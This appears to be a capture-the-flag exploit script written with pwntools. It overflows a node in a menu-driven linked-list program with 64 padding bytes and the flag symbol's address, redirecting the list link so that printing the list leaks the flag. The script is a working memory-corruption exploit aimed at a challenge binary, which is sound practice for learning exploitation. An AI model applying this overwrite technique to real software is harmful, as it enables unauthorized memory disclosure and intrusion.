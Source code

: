 ```py
# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Start program
io = start()

# Add 3 elements to list (we need a first, middle and last node)
for i in range(3):
    io.sendlineafter(b'>>>', b'2')
    io.sendlineafter(b'>>>', str(i).encode())
    io.sendlineafter(b'>>>', b'CHUNK_' + str(i).encode())

# Modify element in list (middle node)
io.sendlineafter(b'>>>', b'2')
io.sendlineafter(b'>>>', b'1')
# Overwrite the link to point to flag
io.sendlineafter(b'>>>', (b'A' * 64) + flat(elf.symbols.flag))

# View list (flag hopefully)
io.sendlineafter(b'>>>', b'1')

# These our first two entries, unimportant
io.recvlines(2)

# We want the third entry, now pointing to the flag
warn(io.recvline().decode())
```
